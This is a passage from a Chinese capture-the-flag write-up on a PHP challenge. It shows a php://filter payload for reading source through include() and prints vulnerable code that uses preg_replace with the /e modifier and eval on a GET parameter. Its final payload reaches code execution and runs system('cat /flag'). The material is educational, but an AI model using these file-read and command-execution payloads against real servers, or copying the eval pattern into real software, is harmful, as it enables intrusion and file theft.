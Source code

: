 #### 绕过点二

`include($file);  //next.php`暗示了需要包含`next.php`，但是在这之前需要先看一`next.php`的源码

这里也可以使用`include()`函数来触发`php伪协议`来读取

```
payload：?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

<img src="CTF.assets/image-20230708171639724.png" alt="image-20230708171639724" style="zoom:50%;" />

使用`base64`解码得到源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
        @eval($_GET['cmd']);
}
```

最后使用正则表达式`e`漏洞来执行函数`getFlag`，即可得到答案

到这里就可以根据前面的前置知识得出最后的payload了，但是值得一提的是：代码中使用`foreach`来遍历`$_GET`数组，所以最后可以传入`$_GET['\S*'] = "{${phpinfo()}}"`，至于`$id`可传可不传

```
payload：?text=data://text/plain,I have a dream&file=next.php&\S*={${getFlag()}}&cmd=system('cat /flag');
```
